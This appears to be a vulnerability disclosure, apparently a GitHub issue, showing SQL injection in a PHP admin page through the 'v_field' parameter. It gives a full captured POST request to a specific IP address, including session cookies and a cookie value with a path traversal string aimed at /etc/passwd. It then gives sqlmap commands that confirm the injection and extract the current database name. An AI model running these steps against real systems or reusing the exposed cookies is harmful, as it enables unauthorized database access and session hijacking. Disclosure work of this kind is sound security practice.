 When the condition 6796=6795 is false; The query data is empty

<img width="1998" height="1348" alt="image" src="https://github.com/user-attachments/assets/e87f3fd0-768c-4bee-87bf-0b33be377417" />

Copy the request packet; Change the injection point parameter 'v_field' to 'v_field==1' and save it as sql.txt; As follows:
-----------------------------------------------------------------------------------------------------------------------------------

POST /30h9r/admin_datarelate.php?action=batchsubmit HTTP/1.1
Host: 117.72.99.125
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 100
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: b90f5dd6d9e2dd57d6923cc5ff004f81_ssl=4367f410-636e-4b97-9883-f34bf361fa12.6Qw9eztOxIrDDuk37dBvDYqdw4M; a92363a1749cf97619f515a0efc163a5_ssl=f92a0fb9-7632-4731-bd2e-fb39cbfe492b.djCZJ5AYTm8WZzwMZyszKsi86S0; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9; XLA_CI=8084cfdc4be60dd551c26fe7666cb493; history=%5B%7B%22name%22%3A%22kaill%22%2C%22pic%22%3A%22%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd%22%2C%22link%22%3A%22%2Fdetail%2F%3F524.html%22%2C%22part%22%3A%22%22%7D%5D; PHPSESSID=67b60hjkikku0l5hc5s97dq6a6
Origin: http://117.72.99.125
Referer: http://117.72.99.125/30h9r/admin_datarelate.php?action=batch
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

v_field=1&v_str1=1&v_str2=1
-----------------------------------------------------------------------------------------------------------------------------------

Use sqlmap for injection verification

The existence of sql injection was successfully verified using the injection statement "sqlmap -r "sql.txt" -p v_field --dbms=mysql --level=5 --risk=3 --random-agent --flush-session --batch -v 3 ". As shown in the picture

<img width="1011" height="532" alt="截屏2025-09-07 22 58 38" src="https://github.com/user-attachments/assets/85d4c1fa-8621-482e-9921-62d565868f57" />

The statement "sqlmap -r sql.txt -p v_field --dbms=mysql --technique=T --current-db --batch -v 3 "was used to inject and obtain the database, successfully generating the database name. As shown in the picture

<img width="1010" height="513" alt="截屏2025-09-07 22 59 43" src="https://github.com/user-attachments/assets/a14e241f-bb83-4b6d-8bbe-72ea51a2e11a" />
